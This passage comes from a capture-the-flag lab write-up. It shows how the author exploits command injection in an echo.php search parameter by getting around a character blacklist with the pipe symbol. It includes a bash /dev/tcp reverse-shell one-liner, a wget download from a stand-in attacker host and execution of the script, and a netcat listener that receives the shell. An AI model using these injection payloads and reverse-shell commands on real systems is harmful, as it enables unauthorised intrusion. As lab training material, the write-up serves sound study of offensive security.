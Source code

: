 ```console
┌──(kali㉿kali)-[~/Documents/tthm/minotaur]
└─$ curl $IP/echo.php?search=here+is+the+user+input
...snip...
<div>here is the user input</div>
```

It's not really clear why any imaginable implementation of this feature would constitute a command injection vulnerability, but the reflected user input, the "echo" name and the "Secret Stuff" link makes this smells like a set-up for a CTF-style command injection vulnerability. Attempting to add shell metacharacters to the provided input leads to a message being shown on the page, implying that some sort of blacklist / whitelist is applied to filter these characters and indicating that this input may well be passed to call to system(), exec(), etc. (the leading "\" is required to tell our shell that the ";" character is part of the query param passed to curl) :

```console
┌──(kali㉿kali)-[~/Documents/tthm/minotaur]
└─$ curl $IP/echo.php?search=with+metachars+\;id
...snip...
<div class='col-md-5 col-md-offset-4 centered'>You really think this is gonna be possible i fixed this @Deadalus -_- !!!? </div> 
```

Testing a few other metacharacters ($, &, `, etc.) reveals that the pipe character is not included in the blacklist, allowing for command injection and providing RCE :

```console
┌──(kali㉿kali)-[~/Documents/tthm/minotaur]
└─$ curl $IP/echo.php?search=this+works\|id
...snip...
<div>uid=1(daemon) gid=1(daemon) groups=1(daemon)</div>
```

Getting a one-liner reverse shell past the character blacklist is a hassle, so we can just create a simple bash reverse shell  (`bash -i >& /dev/tcp/ATTACK-IP/80 0>&1`), host it on the attack machine, and download it to the target using wget, saving it in `/tmp/rs.sh` :

```console
┌──(kali㉿kali)-[~/Documents/tthm/minotaur]
└─$ curl $IP/echo.php?search=\|wget+ATTACK-IP/rs.sh+-O+/tmp/rs.sh
```

After staring a listener, we execute the shell at `/tmp/rs.sh` and it connects home : 

```console
┌──(kali㉿kali)-[~/Documents/tthm/minotaur]
└─$ curl $IP/echo.php?search=\|bash+/tmp/rs.sh
```

```console
┌──(kali㉿kali)-[~/Documents/tthm/minotaur]
└─$ nc -lnvp 80
listening on [any] 80 ...
connect to [ATTACK-IP] from (UNKNOWN) [10.10.248.53] 44720
daemon@labyrinth:/opt/lampp/htdocs$ id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```
